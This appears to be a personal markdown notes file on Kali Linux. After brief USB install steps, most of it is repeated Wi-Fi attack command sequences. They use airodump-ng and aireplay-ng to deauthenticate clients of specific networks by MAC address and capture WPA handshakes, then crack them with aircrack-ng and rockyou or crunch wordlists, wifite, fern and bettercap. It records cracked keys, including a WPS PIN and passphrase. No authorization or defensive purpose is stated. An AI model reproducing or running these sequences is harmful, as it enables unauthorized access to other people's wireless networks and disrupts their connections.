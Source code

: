 # Kali

alfa
tenda
panda
tp-link
long range wifi antenna


airmon-ng
ifconfig

download kali
https://rufus.ie
  download

rufus
  boot selection = kali-linux.iso
  start, write in DD image mode, ok

restart
shift or f8
use a device = uefi: sandisk

security boot = disabled, f10, yes
shift or f8
use a device = uefi: sandisk

---

## install kali on linux

kali linux live download
rufus portable download

rufus 
  run as administrator, no
  select = kali linux iso
  persistent partition size = 10gb
  start, yes, ok

reboot and boot into kali linux live persistence usb
  uefi: sandisk, pratition 1
  live system (persistence, check kali.org/prst)
  check wifi
  create a folder then reboot

```bash
nano /etc/apt/sources.list
sudo apt-get update
```
    

---

https://github.com/derv82/wifite2
wifite
  ctrl+c
  1, 7

---

cat words.txt

fernwifi cracker
  wlan0, ok
  wifi wep
  wifi wpa
    wifi-name, attack, ok
  key database
   

---

## not done

ifconfig
bettercap -iface wlan0
help
wifi.recon on
wifi.show
set wifi.recon.channel 3
set net.sniff.verbose true
set net.sniff.filter ether proto 0x888e
set net.sniff.output wpa.pcap
net.sniff on
wifi.show
copy BSSID = e0:8e:3c:14:10:60
wifi.deauth e0:8e:3c:14:10:60
exit


home, wpa.pcap = wireshark

---

airmon-ng
airmon-ng start wlan0
airodump-ng wlan0mon
airodump-ng -c 2 --bssid 00:90:4C:08:00:0D -w /root/Desktop/DIR615 wlan0mon
new terminal
aireplay-ng -0 0 -a 00:90:4C:08:00:0D wlan0mon
wait for WPA handshake
cd Desktop
aircrack-ng -w rockyou.txt DIR615-01.cap
KEY FOUND!
airmon-ng stop wlan0mon

---

wifite
  5 Asraf
  cracked wps pin: 38271021
  cracked wps psk: asraf123

---

airmon-ng start wlan1
iwconfig
airodump-ng wlan1mon
airodump-ng --bssid C0:5E:79:FF:07:73 -c 13 --write dream101 wlan1mon
new terminal
aireplay-ng --deauth 10 -a C0:5E:79:FF:07:73 -c 24:18:1D:61:F8:44 wlan1mon
WPA handshake

ls
locate rockyou.txt
cp /usr/share/wordlists/rockyou.txt.gz /root/Documents.password/rockyou.txt

aircrack-ng dream101-01.cap -w /root/Documents/.password/rockyou.txt
KEY FOUND! 

---

https://github.com/derv82/wifite2

wifite -h
wifite
  ctrl + c
  6,2

---

airmon-ng start wlan0
kill 664
kill 736
kill 768
airodump-ng wlan0mon
airodump-ng --bssid 68:92:34:2b:AA:38 --c 11 --w hack wlan0mon
new terminal
aireplay-ng -0 0 -a 68:92:34:2b:AA:38 wlan0mon
WPA handshake
aircrack-ng -w '/root/Desktop/rockyou.txt' hack-01.cap
KEY FOUND!

---

cp /usr/share/wordlists/rockyou.txt.gz .
ls
gunzip rockyou.txt.gz
ls
wc -l rockyou.txt
cat rockyou.txt | sort | uniq | pw-inspector -m 8 -M 63 > newrockyou.txt
ls
wc -l newrockyou.txt

---

airmon-ng
airmon-ng start wlan0
airmon-ng
airodump-ng wlan0mon
new terminal
airodump-ng -c 1 --bssid A4:91:B1:34:B1:A3 -w /home/kali/Desktop wlan0mon
new terminal
aireplay-ng -0 2 -a A4:91:B1:34:B1:A3 -c 18:21:95:00:4B:4B wlan0mon
WPA handshake
aircrack-ng -a2 -b A4:91:B1:34:B1:A3 -w /home/kali/Desktop/ligns.txt /home/kali/Desktop/*.cap
KEY FOUND!

---

wifite -h
wifite
  5
airmon-ng stop wlan0mon
copy psk and paste in wifi password

---

gzip -d /usr/share/wordlists/rockyou.txt.gz

gzip -d rockyou.txt.gz

---

airmon-ng
airmon-ng start wlan0
airmon-ng check kill
ip link set wlan0 down
iw dev wlan0 set type monitor
airmon-ng start wlan0
airodump-ng wlan0mon
airodump-ng -c 3 --bssid B4:43:26:5C:1F:F8 -w /root/Desktop/ wlan0mon
new terminal
aireplay-ng -0 0 -a B4:43:26:5C:1F:F8 -c 1C:36:BB:30:66:FE wlan0mon
aireplay-ng -0 2 -a B4:43:26:5C:1F:F8 -c 1C:36:BB:30:66:FE wlan0mon
WPA handshake
aircrack-ng -a2 -b B4:43:26:5C:1F:F8 -w /root/Desktop/rockyou.txt /root/Desktop/*.cap

---

wifite
 ctrl + c
locate rockyou
cp /usr/share/worldlists/rockyou.txt.gz /root/Desktop/
extract
copy a words inside the rockyou.txt and add Haktools1, save as tesfile
wifite --dict /root/Desktop/testfile
  ctrl + c
  3
  Haktools1

---


wifite
  1
aircrack-ng -b 9C:65:EE:50:11:C7 /home/kali/Desktop/handshake.cap -w /home/kali/Desktop/rockyou.txt
KEY FOUND
airmon-ng stop wlan0mon

---

airmon-ng start wlan0
airodump-ng wlan0mon
airodump-ng -c 10 -b 98:DE:D0:4B:D2:88 -w hack1 wlan0mon
new terminal
aireplay-ng -0 5 -a 98:DE:D0:4B:D2:88 -c 04:B1:67:C2:31:F7 wlan0mon
WPA handshake
new terminal
crunch 0 8 0123456789 | aircrack-ng -b 98:DE:D0:4B:D2:88 -w- hack1-01.cap
KEY FOUND!

---


